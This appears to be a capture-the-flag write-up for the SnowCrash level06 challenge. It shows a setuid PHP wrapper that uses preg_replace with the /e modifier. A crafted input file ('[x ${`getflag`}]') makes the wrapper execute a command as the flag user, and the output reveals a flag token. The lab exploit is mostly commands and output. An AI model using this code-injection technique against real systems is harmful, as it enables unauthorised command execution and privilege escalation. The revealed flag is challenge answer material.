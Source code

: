 
```sh
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```
```sh
level06@SnowCrash:~$ cat level06.php 
```

```php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

> ###TEST
> 
> level06@SnowCrash:~$ echo "hello world" > /tmp/tmp.tpBYsyE1Gs/test
> 
> level06@SnowCrash:~$ ./level06 /tmp/tmp.tpBYsyE1Gs/test
> 
> hello world

```sh
level06@SnowCrash:~$ mktemp -d 
/tmp/tmp.tpBYsyE1Gs
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/tmp.tpBYsyE1Gs/getflag
level06@SnowCrash:~$ chmod 777 /tmp/tmp.tpBYsyE1Gs -R
level06@SnowCrash:~$ ./level06 /tmp/tmp.tpBYsyE1Gs/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

```